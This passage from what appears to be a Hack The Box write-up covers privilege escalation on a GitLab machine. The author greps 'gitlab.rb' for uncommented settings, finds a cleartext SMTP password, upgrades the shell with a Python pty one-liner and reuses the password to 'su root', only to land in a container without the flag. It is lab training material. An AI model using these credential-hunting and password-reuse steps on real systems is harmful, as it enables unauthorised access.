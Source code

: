```
git@gitlab:/opt/backup$ grep "gitlab_rails" docker-compose.yml
grep "gitlab_rails" docker-compose.yml
        gitlab_rails['initial_root_password']=File.read('/root_pass')
```

*That was another lie.*

The whole time a sneaky password was in `gitlab.rb`. Only problem is that the file has 1853 lines, but fortunately the majority were commented. I was too lazy to go through the whole file, so I used `grep` to just filter for the uncommented lines.

```
git@gitlab:/opt/backup$ grep -v "^#" gitlab.rb | grep -v "^$"
grep -v "^#" gitlab.rb | grep -v "^$"
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

No idea why the SMTP password was the only thing set in `gitlab.rb`, besides it being the password for a different user... classic HTB move there. I could already switch users since I spawned a TTY reverse shell when I got initial, but if you do not have a TTY shell to switch users you can just run the following command.

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Checking if the password is for the `root` account gives us the treasure!

```
git@gitlab:/opt/backup$ su root
su root
Password: wW59U!ZKMbG9+*#h

root@gitlab:/opt/backup#
```
However...

**SIKE!**

**THAT ROOT IS A LIE AND WE DO NOT HAVE THE FLAG!**

```
root@gitlab:~# ls -al
ls -al
total 24
drwx------ 1 root root 4096 Dec 13 15:06 .
drwxr-xr-x 1 root root 4096 Dec  1 12:41 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:56 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwx------ 2 root root 4096 Dec  7 16:49 .ssh
-rw------- 1 root root 1565 Dec 13 15:06 .viminfo
```

*Looks like I have to do a bit more work :(*

---
